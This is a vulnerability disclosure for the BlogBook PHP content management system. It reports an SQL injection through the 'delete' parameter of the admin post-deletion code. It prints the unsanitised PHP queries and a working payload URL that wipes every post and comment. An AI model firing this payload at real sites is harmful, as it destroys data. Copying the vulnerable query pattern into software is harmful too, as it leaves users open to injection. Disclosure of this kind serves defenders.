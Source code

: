 # BlogBook /admi/posts.php delete_post delete Parameter SQL Injection

**Exploit Title: BlogBook /admin/posts.php delete_post delete Parameter SQL**

**Vendor Homepage: [chaitak-gorai/blogbook: Blogbook- Content Management System Project](https://github.com/chaitak-gorai/blogbook)**

**Software Link: [chaitak-gorai/blogbook: Blogbook- Content Management System Project](https://github.com/chaitak-gorai/blogbook)**

**Software: blogbook**

**Tested on: Windows,PHP 5.6.9 ,Apache 2.4.39 ,MySQL 8.0.12**

## Vulnerability Overview

The BlogBook application is vulnerable to SQL injection in its post deletion mechanism. When a delete GET parameter is supplied, its value is used unsanitized in two separate DELETE SQL queries: one targeting the posts table and another targeting the comments table based on the same post_id. This allows an attacker (potentially requiring administrative privileges) to inject malicious SQL. A crafted payload, such as one evaluating to a universally true condition (e.g., 1 OR 1=1), can bypass the intended single-post deletion and result in the deletion of all entries in both the posts and comments tables, causing significant data integrity and availability issues.

## Vulnerability Point

`blogbook-main/admin/view_all_posts.php:247`

## Vulnerable Parameter

`delete`

## Vulnerable Code

```php
if(isset($_GET['delete'])){
    $dpost_id=$_GET['delete'];
    $query="DELETE FROM posts WHERE post_id={$dpost_id}";
    $delete_post_query=mysqli_query($connection,$query);
	$comments_query="DELETE FROM comments WHERE comment_post_id={$dpost_id}";
	$delete_post_comments_query=mysqli_query($connection,$comments_query);
    header("location:posts.php");
}
```
## Payload

`http://localhost/admin/posts.php?delete=-1%20or%201=1%20--`

![image-20250522141616184](./assets/image-20250522141616184.png)

![image-20250522141938035](./assets/image-20250522141938035.png)
